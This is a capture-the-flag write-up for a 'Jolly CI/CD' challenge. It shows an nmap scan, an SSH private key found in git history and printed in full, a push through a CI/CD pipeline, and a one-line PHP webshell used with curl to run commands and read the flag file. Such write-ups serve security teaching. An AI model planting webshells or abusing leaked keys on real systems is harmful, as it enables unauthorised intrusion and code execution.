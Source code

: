 # Jolly CI/CD

![](../../../resources/screenshots/jollycicd-prompt.png)

We also know that `Tinsel Upatree` has given critical information for this challenge:

```
Great! Thanks so much for your help!

Now that you've helped me with this, I have time to tell you about the deployment tech I've been working on!

Continuous Integration/Continuous Deployment pipelines allow developers to iterate and innovate quickly.

With this project, once I push a commit, a GitLab runner will automatically deploy the changes to production.

WHOOPS! I didn’t mean to commit that to `http://gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git`...

Unfortunately, if attackers can get in that pipeline, they can make an awful mess of things!
```

---

- After some hopeless poking around locally, I checked my IP (was `172.18.0.99/16`) and did a simple nmap scan for other available hosts (*note: on subsequent tests, it took a while for these hosts to come up, so you have to be patient*):

	- `nmap 172.17.0.1/24 -sP`
	
```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-12-09 05:35 GMT
Nmap scan report for 172.18.0.1
Host is up (0.00020s latency).
MAC Address: 02:42:2F:A5:F3:D3 (Unknown)
Nmap scan report for wordpress-db.local_docker_network (172.18.0.87)
Host is up (0.00013s latency).
MAC Address: 02:42:AC:12:00:57 (Unknown)
Nmap scan report for wordpress.local_docker_network (172.18.0.88)
Host is up (0.000084s latency).
MAC Address: 02:42:AC:12:00:58 (Unknown)
Nmap scan report for gitlab.local_docker_network (172.18.0.150)
Host is up (0.000038s latency).
MAC Address: 02:42:AC:12:00:96 (Unknown)
Nmap scan report for grinchum-land.flag.net.internal (172.18.0.99)
Host is up.
Nmap done: 256 IP addresses (5 hosts up) scanned in 1.82 seconds
```

- OK - so we see a gitlab server afterall! We also see `grinchum-land.flag.net.internal` - I recall Tinsel mentioning this earlier: `http://gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git`. What if we replace the gitlab.flag.net.internal with the hostname we found via nmap?
	- `git clone http://gitlab.local_docker_network/rings-of-powder/wordpress.flag.net.internal.git`

- It worked! Now we have the git repository that we know is linked to a gitlab-runner, and can kick off changes to their wordpress website!  

![](../../../resources/screenshots/jollycicd-ciconfig.png)

- We'll need to learn more. If we run `git log`, we see a commit with the message **whoops**.  Looking deeper, we actually find an SSH public/private key:

![](../../../resources/screenshots/jollycicd-gitlog.png)

- `git log e19f653bde9ea3de6af21a587e41e7a909db1ca5 -p`
 ![](../../../resources/screenshots/jollycicd-pubprivssh.png)

- The public key is: 
`ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP7AsdI7HOvk4piOcwLZfDotPqBj2tDq9NBdTUkbZBri sporx@kringlecon.com`
- The private key is:
```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4gAAAJiQFTn3kBU5
9wAAAAtzc2gtZWQyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4g
AAAEBL0qH+iiHi9Khw6QtD6+DHwFwYc50cwR0HjNsfOVXOcv7AsdI7HOvk4piOcwLZfDot
PqBj2tDq9NBdTUkbZBriAAAAFHNwb3J4QGtyaW5nbGVjb24uY29tAQ==
-----END OPENSSH PRIVATE KEY-----
```
 
- We place these into `~/.ssh/id_ed25519.pub` and `~/.ssh/id_ed25519` respectively, and set `chmod 0700 ~/.ssh/id_ed25519`. 
- Then we test using `ssh -T git@gitlab.local_docker_network` and it greets us as the user **"knee-oh"**
- We need to also let git know to use these vs. using https:
	- `git remote set-url origin git@gitlab.local_docker_network:knee-oh/rings-of-powder/wordpress.flag.net.internal.git`
- Now that we've got this all set up nice and good, I `rm -rf` the existing clone and re-clone it using SSH:
	- `git clone git@gitlab.local_docker_network:rings-of-powder/wordpress.flag.net.internal.git`
- I make an empty file just to test and see if this all works:
![](../../../resources/screenshots/jollycicd-testpush.png)

- We're in business!!! I modify the root `index.php` to be the most basic of webshells:

```php
<?=`$_GET[0]`?>
```

- `curl http://wordpress.local_docker_network/index.php?0=whoami`:

![](../../../resources/screenshots/jollycicd-rce.png)

- While looking for the flag, we check the root directory and see flag.txt. Reading it, we get our flag!

`curl -L http://wordpress.local_docker_network/index.php?0='cat%20/flag.txt'`

![](../../../resources/screenshots/jollycicd-flag.png)

Answer: **oI40zIuCcN8c3MhKgQjOMN8lfYtVqcKT**

Back to the [Elfen room](../README.md)!